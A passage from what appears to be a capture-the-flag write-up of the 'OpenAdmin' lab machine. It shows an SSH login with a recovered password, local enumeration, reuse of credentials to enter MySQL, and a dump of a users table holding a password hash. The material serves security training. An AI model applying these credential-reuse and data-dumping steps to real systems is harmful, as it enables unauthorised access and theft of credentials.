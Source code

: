 ```console
$ ssh jimmy@10.10.10.171
jimmy@openadmin:~$
```

Finally, we have the credentials for `jimmy:n1nj4W4rri0R!`. This user doesn’t have sudo permission:

```console
jimmy@openadmin:~$ sudo -l
[sudo] password for jimmy: 
Sorry, user jimmy may not run sudo on openadmin.
```

We can see **AppArmor** running on the system:

```console
jimmy@openadmin:~$  find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
/proc
/sys/kernel/security/apparmor/.remove
/sys/kernel/security/apparmor/.replace
/sys/kernel/security/apparmor/.load
/sys/kernel/security/apparmor/.access
```

We can use the previous credentials to access the MySQL database:

```console
jimmy@openadmin:~$ mysql -u ona_sys -p
Enter password:

mysql>
```

We found there some credentials:

```console
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| ona_default        |
+--------------------+
2 rows in set (0.00 sec)

mysql> use ona_default;
mysql> show tables;
+------------------------+
| Tables_in_ona_default  |
+------------------------+
| blocks                 |
| configuration_types    |
. . . <SNIP> . . . 
| users                  |
| vlan_campuses          |
| vlans                  |
+------------------------+
40 rows in set (0.00 sec)

mysql> select * from users;
+----+----------+----------------------------------+-------+---------------------+---------------------+
| id | username | password                         | level | ctime               | atime               |
+----+----------+----------------------------------+-------+---------------------+---------------------+
|  1 | guest    | 098f6bcd4621d373cade4e832627b4f6 |     0 | 2022-12-25 19:08:24 | 2022-12-25 19:08:24 |
```